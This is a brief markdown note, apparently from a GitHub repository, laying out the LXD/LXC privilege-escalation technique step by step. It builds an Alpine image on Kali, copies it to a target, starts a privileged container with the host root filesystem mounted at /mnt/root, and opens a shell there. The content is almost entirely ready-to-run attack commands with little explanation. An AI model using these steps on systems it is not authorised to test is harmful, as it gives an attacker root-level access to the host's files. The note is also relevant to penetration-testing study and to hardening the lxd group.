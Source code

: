 <!--- no reason to be here, except to make this shit show the title -->

# lxc exploit
# lxc exploit

**kali linux**

Create an image. The result is a .tar file containing image, which should be tranferred to the target
```
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
./build-alpine  
scp alpine.tar.gz bob@target:
```
I couldn't get it work with '-a i686', where i686 is the arhitecture
Set the appropriate arch if needed.


**target system**

```

lxc image import alpine.tar.gz --alias alpine
lxc image list
lxc init alpine privesc -c security.privileged=true
lxc list
lxc config device add privesc host-root disk source=/ path=/mnt/root/
lxc start privesc
lxc exec privesc /bin/sh
```

NOTE: the root folder is now in /mnt/root/

/tmp on host becomes /mnt/root/tmp

etc.
